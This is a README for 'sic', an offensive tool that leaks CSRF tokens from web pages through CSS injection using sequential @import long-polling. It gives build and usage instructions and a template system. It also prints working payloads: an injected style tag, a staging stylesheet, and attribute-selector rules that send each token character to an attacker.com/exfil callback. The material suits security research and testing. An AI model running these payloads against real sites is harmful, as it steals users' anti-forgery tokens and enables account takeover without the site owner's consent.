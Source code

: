 # Sequential Import Chaining

Typical CSS injection requires an attacker to load the context a number of times to exfiltrate sensitive tokens from a page. Usually the vector for this is via iframing which isn't always possible, especially if the target is using `x-frame-options: deny` or `x-frame-options: sameorigin`. This can be further complicated if the victim needs to interact with the target to trigger the injection (perhaps due to dynamic behavior on the page).

Sequential import chaining is a technique that enable a quicker, easier, token exfiltration even in the cases where framing isn't possible or the dynamic context is only occasionally realized.

### Blog Post
I wrote a blog post on this. Read about it [here!](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)

## Prerequisites for Attack

This attack only works if the attacker at least one of these: 

* Style tag injection (HTML injection, for example)
* Control of CSS at the top of a style tag.

The first case is probably more likely and will work even if filtered through vanilla DOM Purify.

## Building

1. Install RustUp (https://rustup.rs/ - `curl https://sh.rustup.rs -sSf | sh`)
2. Install the nightly (`rustup install nightly`)
3. Default to nightly (`rustup default nightly`)
4. Build with cargo (`cargo build --release`)

You will find the built binary at `./target/release/sic`

## Usage
`sic` has documentation on the available flags when calling `sic -h` but the following is information for general usage.

* `-p` will set the lower port that `sic` will operate on. By default this is 3000. `sic` will also listen on port `port + 1` (by default 3001) to circumvent a technical limitation in most browsers regarding open connection limits.
* `--ph` sets the hostname that the "polling host" will operate on. This can either be the lower or higher operating port, though it's traditionally the lower port. Defaults to `http://localhost:3000`. This _must_ be different than `--ch`
* `--ch` similar to `--ph` but this sets the "callback host" where tokens are sent. Defaults to `http://localhost:3001`. This _must_ be different than `--ph`.
* `-t` specifies the template file used to generate the token exfiltration payloads.
* `--charset` specifies the set of characters that may exist in the target token. Defaults to alphanumerics (`abc...890`).

A standard usage of this tool may look like the following:
```
./sic -p 3000 --ph "http://localhost:3000" --ch "http://localhost:3001" -t my_template_file
```

And the HTML injection payload you might use would look like:
```
<style>@import url(http://localhost:3000/staging?len=32);</style>
```

The `len` parameter specifies how long the token is. This is necessary for `sic` to generate the appropriate number of `/polling` responses. If unknown, it's safe to use a value higher than the total number of chars in the token.

### Advanced Logs
`sic` will print minimal logs whenever it receives any token information; however, if you want more detailed information advanced logging is supported through an environment variable `RUST_LOG`.

```
RUST_LOG=info ./sic -t my_template_file
```

### Templates
The templating system is very straightforward for `sic`. There are two actual templates (probably better understood as 'placeholders'):
* `{{:token:}}` - This is the current token that we're attempting to test for. This would be the `xyz` in `input[name=csrf][value^=xyz]{...}`
* `{{:callback:}}` - This is the address that you want the browser to reach out to when a token is determined. This will be the callback host (`--ch`). All the information `sic` needs to understand what happened client-side will be in this url.

An example template file might look like this:
```
input[name=csrf][value^={{:token:}}] { background: url({{:callback:}}); }
```

`sic` will automatically generate all of the payloads required for your attack and make sure it's pointing to the right callback urls.

### HTTPS
HTTPS is not directly support via `sic`; however, it's possible to use a tool like nginx to set up a reverse proxy in front of `sic`. An example configuration is found in the [example nginx config](/example_nginx.conf) file thoughtfully crafted up by [nbk_2000](https://twitter.com/nbk_2000).

After nginx is configured, you would run `sic` using a command similar to the following:

```
./sic -p 3000 --ph "https://a.attacker.com" --ch "https://b.attacker.com" -t template_file
```

Note that the ports on `--ph` and `--ch` match up with the ports nginx is serving and not `sic`. 

## Technique Description

For a better story and additional information, please see my blog post on [Sequential Import Chaining here](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b).

The idea behind CSS injection token exfiltration is simple: You need the browser to evaluate your malicious css once, send an outbound request with the next learned token, and repeat. 

Obviously the "repeat" part is normally done using a full frame reload (iframing, or tabs... blah).

However, we don't actually need to reload the frame to get the browser to reevaluate *new* CSS.

Sequential Import Chaining uses 3 easy steps to trick some browser into performing multiple evaluations:

1. Inject an `@import` rule to the staging payload 
2. Staging payload uses `@import` to begin long-polling for malicious payloads
3. Payloads cause browser to call out using `background-img: url(...)` causing the next long-polled `@import` rule to be generated and returned to the browser.

## Example

Here's an example of what these might look like:

### Payload
`<style>@import url(http://attacker.com/staging?len=32);</style>`

### Staging
```
@import url(http://attacker.com/lp?len=0);
@import url(http://attacker.com/lp?len=1);
@import url(http://attacker.com/lp?len=2);
...
@import url(http://attacker.com/lp?len=31); // in the case of a 32 char long token
```

### Long-polled Payload (length 0)
This is a unique, configurable template in `sic` because this part is very context specific to the vulnerable application.
```
input[name=xsrf][value^=a] { background: url(http://attacker.com/exfil?t=a); }
input[name=xsrf][value^=b] { background: url(http://attacker.com/exfil?t=b); }
input[name=xsrf][value^=c] { background: url(http://attacker.com/exfil?t=c); }
...
input[name=xsrf][value^=Z] { background: url(http://attacker.com/exfil?t=Z); }
```

After the browser calls out to `http://attacker.com/exfil?t=<first char of token>`, `sic` records the token, generate the next long-polled payload, and return a response for `http://attacaker.com/lp?len=1`. 

### Long-polled Payload (length 1 - given `s` as first char)
```
input[name=xsrf][value^=sa] { background: url(http://attacker.com/exfil?t=sa); }
input[name=xsrf][value^=sb] { background: url(http://attacker.com/exfil?t=sb); }
input[name=xsrf][value^=sc] { background: url(http://attacker.com/exfil?t=sc); }
...
input[name=xsrf][value^=sZ] { background: url(http://attacker.com/exfil?t=sZ); }
```

This repeats until no more long-polled connections are open.

----

Shoutout to the following hackers for help in one way or another.

* [0xacb](https://twitter.com/0xACB)
* [cache-money](https://twitter.com/itscachemoney)
* [Shubs](https://twitter.com/infosec_au)
* [Sean](https://twitter.com/seanyeoh)
* [Ruby](https://twitter.com/_ruby)
* [vila](https://twitter.com/cgvwzq)
* [nbk_2000](https://twitter.com/nbk_2000)
